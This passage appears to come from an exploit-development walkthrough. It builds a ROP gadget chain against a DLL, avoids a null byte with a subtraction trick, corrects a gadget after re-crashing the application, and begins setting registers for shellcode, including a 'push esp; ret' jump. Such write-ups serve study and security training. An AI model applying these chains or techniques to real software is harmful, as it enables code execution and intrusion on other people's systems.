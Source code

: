 The above is super close, the only issue is `0x05de34` will be padded to include a null byte. Instead of `add eax, ebp` we could do `sub eax, ebp` and have `ebp` be a negative so it is basically the same.
```
0x10064def: pop edi; ret;
0x10040826: ret;
0x100fd644: pop eax; ret;
0x1016a0b0
0x1014fc8c: mov eax, dword ptr [eax]; ret;
0x1005edc5: pop ebp; ret;
0x100000000 - 0x05de34;
0x1014e1a8: sub eax, ebp; pop esi; pop ebp; pop ebx; ret;
0x90909090
0x90909090
0x90909090
0x10138850: mov esi, dword ptr [eax]; push eax; call edi;
```

That should be the final chain!

After adding it to python and re crashing the app. Running this I got one thing wrong, there should be a `pop pop ret` in edi not a `ret`

Giving the final chain of:
```
0x100fd644: pop eax; ret;
0x1016a0b0
0x1014fc8c: mov eax, dword ptr [eax]; ret;
0x1005edc5: pop ebp; ret;
0x100000000 - 0x05de34;
0x1014e1a8: sub eax, ebp; pop esi; pop ebp; pop ebx; ret;
0x90909090
0x90909090
0x90909090
0x10064def: pop edi; ret;
0x1015a2f0: pop eax; pop ebx; ret;
0x10138850: mov esi, dword ptr [eax]; push eax; call edi;
```


## Setting the rest of the registers
### EAX
```
0x100fd644: pop eax; ret;
0x90909090
```
easy

### EBP
```
0x100bc9e5: push esp; ret;
```
It's the same as a `jmp esp;`
